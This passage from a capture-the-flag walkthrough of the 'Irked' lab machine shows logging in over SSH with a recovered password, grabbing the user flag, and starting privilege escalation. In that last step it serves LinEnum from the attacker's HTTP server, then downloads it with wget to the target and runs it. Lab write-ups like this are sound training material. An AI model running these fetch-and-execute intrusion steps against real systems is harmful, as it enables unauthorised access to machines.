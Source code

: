 ![Untitled](Irked%20ed6ebf99181e49a49c65ec84b6e41a6a/Untitled%2018.png)

Using this password, we can try to ssh to djmardov’s machine:

```bash
ssh djmardov@$IP
```

![Untitled](Irked%20ed6ebf99181e49a49c65ec84b6e41a6a/Untitled%2019.png)

# User Flag

From there, we can go to get user flag via the same path we went to before:

![Untitled](Irked%20ed6ebf99181e49a49c65ec84b6e41a6a/Untitled%2020.png)

# Root Flag

To elevate privileges, we might have to use LinEnum, which we can do by setting up a http server in the directory containing the file:

```bash
python3 -m http.server 9000
```

In the target machine, we download the script using wget and give it execute privileges and run it:

```bash
cd /tmp
wget http://10.10.17.90:9000/LinEnum.sh
chmod +x LinEnum.sh
./LinEnum.sh
```
